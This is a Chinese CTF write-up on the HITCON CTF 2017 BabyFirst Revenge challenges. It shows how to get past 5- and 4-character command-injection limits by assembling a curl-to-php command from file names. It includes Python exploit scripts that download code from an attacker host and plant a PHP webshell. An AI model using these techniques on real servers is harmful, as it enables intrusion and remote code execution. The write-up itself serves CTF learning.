本文首发于安全客 (https://www.anquanke.com/post/id/87203 )
前言 本文主要整理如何巧用Linux命令绕过命令注入点的字符数量限制，内容围绕HITCON CTF 2017 的两道题展开，先讲五个字符的限制，再讲四个字符的。在此感谢下主办方分享这么有趣的点子。
热身 问题的起源是 HITCON CTF 2017 的 BabyFirst Revenge 题，题目的主要代码如下：
1 2 3 4 5 6 7 8 9 10 11 BabyFirst Revenge <?php $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER ['REMOTE_ADDR' ]); @mkdir($sandbox ); @chdir($sandbox ); if (isset ($_GET ['cmd' ]) && strlen($_GET ['cmd' ]) <= 5 ) { @exec($_GET ['cmd' ]); } else if (isset ($_GET ['reset' ])) { @exec('/bin/rm -rf ' . $sandbox ); } highlight_file(__FILE__ );
冷静分析 目标环境根据每个访问者的IP为其在sandbox里新建一个文件夹并作为其工作目录，接受并执行访问者提交的命令。访问者可随时通过提交reset来重置环境。这是个有限制无回显的后门，命令长度要求小于等于5 ，我们会希望利用这一点撕开口子，往服务器上写一个自己的木马，从而扩大命令执行范围。
我们所面临的最主要问题是能够执行的命令长度太短，因此考虑把命令写进文件里再执行，命令的功能是下载我们指定的文件。
在此之前，先做些知识铺垫。
IP的等价表示法 IP地址本质上就是一个整数，只是通常用点分十进制表示，以至于我们反而不太熟悉它本来的样子。只要必要，我们可以用十六进制、长整数、八进制表示IP，大部分情况下效果是相同的。

它们之间的转换也很方便：
1 2 3 4 5 6 7 8 9 10 ip = '127.0.0.1' print '0x' + '' .join([str (hex (int (i))[2 :].zfill(2 )) for i in ip.split('.' )]) print int ('' .join([str (hex (int (i))[2 :].zfill(2 )) for i in ip.split('.' )]), 16 ) print '0' + oct (int ('' .join([str (hex (int (i))[2 :].zfill(2 )) for i in ip.split('.' )]), 16 ))
从网络下载文件

利用续行符拆分命令成多行

用两个字符在Linux下创建文件

将命令执行结果重定向到文件

利用重定向向文件追加内容

删除文件

ls 的文件排列顺序 一句alphabetical耐人寻味，不过大致顺序就是如下图所示。

开始表演 假设我有一台目标服务器能够访问到的公网主机，为了方便我把该主机IP转换成长整数，然后利用以上的知识将 curl ip > A 用续行方式切割成多行写进文件 A ，然后执行 sh A 就可以下载到预先放在公网主机上的文件并且覆盖本地的文件A，而下载下来的文件内容是用来写PHP木马的PHP代码，我再执行 php A就可以写个自己的webshell进去啦。

这里比较取巧的是我的公网IP转成长整形恰好能分割成顺序的四段，如果构造不出来，可以试试十六进制，八进制，找台能用的主机等等：）或者继续往下看，还会有其他办法。
另外，其实GET也是能用的，只是目标主机里没有安装所以这题不能用。
接下来让我们完成最后30%的工作，写个exp。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 import requests as rimport hashliburl = 'http://52.199.204.34/' ip = r.get('http://ipv4.icanhazip.com/' ).text.strip() sandbox = url + 'sandbox/' + hashlib.md5('orange' + ip).hexdigest() + '/' reset = url + '?reset' cmd = url + '?cmd=' build = ['>cur\', ' >l \', ' ls>A', ' rm c*', ' rm l*', ' >105 \', ' >304 \', ' >301 \', ' >9 >\', ' ls>>A', ' sh A', ' php A' ] # 如果目标服务器有GET，这个也是可以打的 # build = [' >GE\', # ' >T\ \', # ' ls>A', # ' rm G*', # ' rm T*', # ' >105 \', # ' >304 \', # ' >301 \', # ' >9 >\', # ' ls>>A'] r.get(reset) for i in build: s = r.get(cmd + i) print ' [%s]' % s.status_code, s.url s = r.get(sandbox + 'fun.php?cmd=uname -a') print 'n' + '[%s]' % s.status_code, s.urlprint s.text
运行效果

挑战升级 这篇文章有趣的地方才刚刚开始。
代码只改了一个字符，但趣味已经不在一个量级。一脸懵逼的我看了大佬们的wp后兴奋不已。
BabyFirst Revenge v2：
1 2 3 4 5 6 7 8 9 10 11 <?php $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR' ]) @mkdir($sandbox ) @chdir($sandbox ) if (isset($_GET['cmd' ]) & & strlen($_GET['cmd' ]) <= 4 ) { @exec($_GET['cmd' ] ) } else if (isset($_GET['reset' ])) { @exec('/bin/rm -rf ' . $sandbox } highlight_file(__FILE__)
热烈分析 只有四个字符的施展空间意味着我们能做的事情少之又少，但Linux本身的简洁给了我们机会。
突破之旅从神奇的星号 * 开始。

经过简单测试我们猜测 * 的作用相当于 ls 。这其实相当厉害，我们本就基本上可以创建任意名字的短文件，现在又可以一个字符就把这些文件名连起来当作命令执行，这提供了很大的想象空间。

还有本质上一样但现象很有趣的，待会儿会用到：

虽然这些特技提供了一些可能性，但是 ls 列出的文件顺序问题仍然是个挑战，我们很难在 alphabetical 序的基础上构造出有用的命令。
写入时间是我们可以控制的，如果能执行 ls –t（将文件按时间排序输出），那么只要把想执行的命令分割成若干段然后逆序写入，就可以随心所欲地构造出任意命令。考虑到 ls -t 本身就已经有4个字符了，我们故技重施，先将 ls -t > f 写入文件 g 中，然后执行 sh g 即可将我们分段逆序写入的命令拼接起来。
在开始操作前，再介绍两个会用到的命令：dir 和 rev。
dir 在GNU文档中有下图这样的描述：
虽然基本上和 ls 一样，但有两个好处，一是开头字母是d ，这使得它在 alphabetical 序中靠前，二是按列输出，不换行。
rev 这个前面出场过，可以反转文件每一行的内容。

实验一下：

开始挑战 需要知道的命令和 tips 都已经介绍了，下面是代码和解释：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 import requests as rfrom time import sleepimport randomimport hashlibtarget = 'http://52.197.41.31/' shell_ip = 'xx.xx.xx.xx' your_ip = r.get('http://ipv4.icanhazip.com/' ).text.strip() ip = '0x' + '' .join([str (hex (int (i))[2 :].zfill(2 )) for i in shell_ip.split('.' )]) reset = target + '?reset' cmd = target + '?cmd=' sandbox = target + 'sandbox/' + hashlib.md5('orange' + your_ip).hexdigest() + '/' pos0 = random.choice('efgh' ) pos1 = random.choice('hkpq' ) pos2 = 'g' payload = [ '>dir' , '>%s>' % pos0, '>%st-' % pos1, '>sl' , '*>v' , '>rev' , '*v>%s' % pos2, '>p' , '>ph\', ' >|\', ' >%s\' % ip[8:10], ' >%s\' % ip[6:8], ' >%s\' % ip[4:6], ' >%s\' % ip[2:4], ' >%s\' % ip[0:2], ' > \', ' >rl\', ' >cu\', ' sh ' + pos2, # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来， # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行 ' sh ' + pos0, # sh f 执行curl命令，下载文件，写入木马。 ] s = r.get(reset) for i in payload: assert len(i) <= 4 s = r.get(cmd + i) print ' [%d]' % s.status_code, s.url sleep(0.1) s = r.get(sandbox + 'fun.php?cmd=uname -a') print '[%d]' % s.status_code, s.urlprint s.text
运行效果

后记 我相信除了文中给出的方法外一定还有一些奇招，大家可以多多探索，可以围观HITCON CTF 2107的官方解答区 ，还可以学习下Phithon师傅的《小密圈里的那些奇技淫巧 》 中与本文主题相关的部分。
最后，如果关于文章内容有任何建议或疑惑，你可以在https://findneo.github.io/ 联系本文作者。感谢阅读o/
本文由安全客 原创发布https://www.anquanke.com/post/id/87203
安全客 - 有思想的安全新媒体